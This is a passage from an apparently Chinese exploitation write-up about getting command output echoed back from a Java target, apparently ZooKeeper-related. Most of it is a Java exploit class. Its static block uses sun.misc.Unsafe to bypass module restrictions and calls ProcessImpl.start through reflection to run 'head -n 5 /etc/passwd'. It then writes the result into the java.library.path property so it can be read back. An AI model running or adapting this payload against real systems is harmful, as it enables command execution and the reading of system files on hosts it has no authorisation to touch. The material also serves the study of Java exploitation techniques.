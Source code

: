 1.  我的 setter 操作成功设置了一个字符串作为目录
    
2.  选项卡返回的信息等同于执行了一个 getter 操作
    
3.  目录可控，返回信息可读，这不就达成了我们的回显的所有条件了吗？
    

废话不多说，直接上代码实现：

```bash
package zk_backup_0.configs.conf1;

import sun.misc.Unsafe;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Map;


public class ExpTest {

    static {
        try {

            Field unsafeField = Unsafe.class.getDeclaredField("theUnsafe");
            unsafeField.setAccessible(true);
            Unsafe unsafe = (Unsafe) unsafeField.get(null);

            Module module = Object.class.getModule();
            Class<?> currentClass = ExpTest.class;

            long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
            unsafe.getAndSetObject(currentClass, addr, module);

//            String command = "head -n 5 /etc/passwd";
            String[] cmd = {"head", "-n", "5", "/etc/passwd"};
            Class clz = Class.forName("java.lang.ProcessImpl");
            Method method = clz.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
            method.setAccessible(true);
            Process process = (Process) method.invoke(clz, cmd, null, null, null, false);
            BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
            String line = reader.readLine();

            String res = "";
            while (line != null) {
                res = res + line + "\n";
                line = reader.readLine();
            }
            reader.close();
            System.setProperty("java.library.path", res);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
